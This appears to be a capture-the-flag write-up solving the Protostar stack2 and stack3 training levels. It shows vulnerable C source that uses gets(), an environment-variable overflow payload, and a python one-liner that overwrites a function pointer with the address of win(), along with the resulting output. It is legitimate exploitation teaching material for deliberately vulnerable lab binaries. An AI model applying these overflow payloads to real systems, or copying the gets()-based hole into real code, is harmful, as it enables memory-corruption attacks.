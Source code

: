>Stack2 looks at environment variables, and how they can be set.
This level is at /opt/protostar/bin/stack2

```
user@protostar:/opt/protostar/bin$ declare -x GREENIE=$(python -c 'print("A"*64+"\x0a\x0d\x0a\x0d")')
./stack2
```

!!! note
    * [setting env](https://phoenixts.com/blog/environment-variables-in-linux/)

## stack3
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
Hints
* both gdb and objdump is your friend you determining where the win() function lies in memory.
>This level is at /opt/protostar/bin/stack3

```
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>: #here is our adress

user@protostar:/opt/protostar/bin$ python -c 'print("A"*64+"\x24\x84\x04\x08")' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
